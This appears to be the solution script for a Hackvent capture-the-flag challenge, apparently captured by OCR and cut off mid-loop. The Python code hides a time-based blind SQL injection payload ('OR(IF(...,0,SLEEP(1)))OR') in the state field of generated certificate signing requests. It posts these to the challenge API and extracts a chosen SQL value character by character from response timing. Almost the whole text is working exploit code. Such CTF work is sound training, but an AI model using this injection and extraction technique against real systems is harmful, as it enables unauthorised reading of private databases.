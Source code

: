 ```python

TIMEOUT = 1

# adapted from https://github.com/pyca/pyopenssl/blob/master/examples/certgen.py
def create_CSR(pkey, payload, digest="sha256"):
    req = crypto.X509Req()
    subj = req.get_subject()

    setattr(subj, 'ST', payload)

    req.set_pubkey(pkey)
    req.sign(pkey, digest)
    return req

# statically defined key
key_str = """-----BEGIN RSA PRIVATE KEY-----
[CUT BY trolli101]
-----END RSA PRIVATE KEY-----
"""
KEY = crypto.load_privatekey(crypto.FILETYPE_PEM, key_str)

# start of the payload
payl = "'OR(IF("
# the string we want to know about, expressed in SQL syntax
target = sys.argv[1]
# end of the payload
suff = ",0,SLEEP("+str(TIMEOUT)+")))OR'"

# get target length
found = False
i = 0
length = 0
while not found:
    test = 'LENGTH((' + target + '))>' + str(i)
    full_payload = payl+test+suff
    csr = create_CSR(KEY, full_payload)
    csr_str = crypto.dump_certificate_request(crypto.FILETYPE_PEM, csr).decode()
    start = time.time()
    requests.post('http://challenges.hackvent.hacking-lab.com:1088/php/api.php?function=csr&argument=&key=E7g24fPcZgL5dg78', data = {'csr':csr_str})
    end = time.time()

    if end-start >= TIMEOUT:
        found = True
        length = i
        print('Length = ' + str(i))
    i += 1

# get the value using bissection to gain some time
value = ''
print('Value = ')
for pos in range(length):
    found = False
    l = 0
    r = 127
    while not found:
        if l > r:
            print('Issue, value not found, maybe increase timeout?')
            exit()
        m = math.floor((l + r) / 2)
        test = 'ASCII(MID((' + target + '),' + str(pos+1) + ',1))>' + str(m)
        full_payload = payl+test+suff
        csr = create_CSR(KEY, full_payload)
```